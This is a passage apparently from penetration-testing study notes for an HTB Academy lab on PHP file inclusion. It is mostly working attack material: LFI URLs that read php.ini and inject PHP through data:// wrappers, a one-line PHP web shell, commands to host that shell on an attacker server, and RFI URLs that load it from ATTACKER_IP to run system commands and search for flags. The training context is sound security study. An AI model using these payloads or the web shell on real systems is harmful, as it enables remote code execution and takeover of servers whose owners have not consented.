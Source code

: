 **Configuration Verification:**
```bash
# Via LFI to check php.ini
http://target.com/lfi.php?file=../../../../etc/php/*/apache2/php.ini

# Via phpinfo() if possible
http://target.com/lfi.php?file=data://text/plain,<?php phpinfo(); ?>

# Via direct function test
http://target.com/lfi.php?file=data://text/plain,<?php echo ini_get('allow_url_include'); ?>
```

---

## Method 1: HTTP Protocol RFI

### Basic HTTP RFI

**Step 1: Create Malicious PHP File**
```php
<?php
// Simple web shell
system($_GET['cmd']);
?>
```

**Step 2: Host on Attacker Server**
```bash
# Start HTTP server
sudo python3 -m http.server 80

# Or using PHP built-in server
php -S 0.0.0.0:80

# Or using Nginx/Apache
sudo systemctl start nginx
```

**Step 3: Execute RFI Attack**
```bash
# Include remote PHP file
http://target.com/index.php?page=http://ATTACKER_IP/shell.php&cmd=id

# Alternative syntax
http://target.com/index.php?file=http://ATTACKER_IP:80/shell.php&cmd=whoami
```

### HTB Academy HTTP RFI Lab

**Complete RFI Workflow:**
```bash
# Step 1: Set up attacker server
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server 80

# Step 2: Test RFI capability
http://target.com/index.php?language=http://ATTACKER_IP/shell.php

# Step 3: Execute commands via RFI
http://target.com/index.php?language=http://ATTACKER_IP/shell.php&cmd=id
http://target.com/index.php?language=http://ATTACKER_IP/shell.php&cmd=uname -a

# Step 4: Enumerate and find flags
http://target.com/index.php?language=http://ATTACKER_IP/shell.php&cmd=find / -name "*flag*" 2>/dev/null
```
